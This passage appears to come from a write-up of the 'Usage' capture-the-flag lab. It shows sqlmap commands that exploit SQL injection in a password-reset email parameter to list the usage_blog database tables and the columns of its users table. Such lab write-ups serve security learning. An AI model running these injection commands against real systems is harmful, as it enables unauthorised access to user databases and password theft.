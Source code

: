 - Tables in `usage_blog` database

```bash
┌──(bravosec㉿fsociety)-[~/htb/Usage]
└─$ sqlmap --random-agent -r pass_reset.req --threads 10 -p email --batch --os linux --level 5 --risk 3 -D usage_blog --tables
[...]
Database: usage_blog
[15 tables]
+------------------------+
| admin_menu             |
| admin_operation_log    |
| admin_permissions      |
| admin_role_menu        |
| admin_role_permissions |
| admin_role_users       |
| admin_roles            |
| admin_user_permissions |
| admin_users            |
| blog                   |
| failed_jobs            |
| migrations             |
| password_reset_tokens  |
| personal_access_tokens |
| users                  |
+------------------------+
[...]
```

- Dump `email` and `password` from `users` table

```bash
┌──(bravosec㉿fsociety)-[~/htb/Usage]
└─$ sqlmap --random-agent -r pass_reset.req --threads 10 -p email --batch --os linux --level 5 --risk 3 -D usage_blog -T users --columns
[...]
Database: usage_blog
Table: users
[8 columns]
+-------------------+-----------------+
| Column            | Type            |
+-------------------+-----------------+
| name              | varchar(255)    |
| created_at        | timestamp       |
| email             | varchar(255)    |
| email_verified_at | timestamp       |
| id                | bigint unsigned |
| password          | varchar(255)    |
| remember_token    | varchar(100)    |
| updated_at        | timestamp       |
+-------------------+-----------------+
[...]
```
